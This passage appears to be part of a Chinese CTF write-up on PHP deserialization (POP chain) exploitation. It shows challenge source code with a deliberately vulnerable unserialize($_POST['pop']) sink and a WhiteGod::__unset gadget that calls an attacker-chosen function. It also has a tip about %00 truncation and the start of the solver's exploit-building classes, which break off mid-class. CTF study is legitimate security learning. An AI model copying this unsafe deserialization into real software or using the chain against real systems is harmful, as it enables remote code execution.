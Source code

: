 ```php
    protected $obj;
    public function __invoke()
    {
        $this->obj->getStr();
    }

    public function end()
    {
        die("==GAME OVER==");
    }
}

class CTF{
    public $handle;

    public function end()
    {
        unset($this->handle->log);
    }

}

class WhiteGod{
    public $func;
    public $var;

    public function __unset($var)
    {
        ($this->func)($this->var);    
    }
}

@unserialize($_POST['pop']);
```



 把截断符换成%00

![img](https://img-blog.csdnimg.cn/03a512b50d564df1b3e3ea62c4482ea9.png)



![img](https://img-blog.csdnimg.cn/937dd5195b9f455ba994b401357cfb10.png)



```php
<?php

class Begin{
    public $name;
}

class Then{
    private $func;
    public function setPrivate($a)
    {
        $this->func=$a;
    }
}

class Handle{
    protected $obj;
    public function setPrivate($a)
    {
```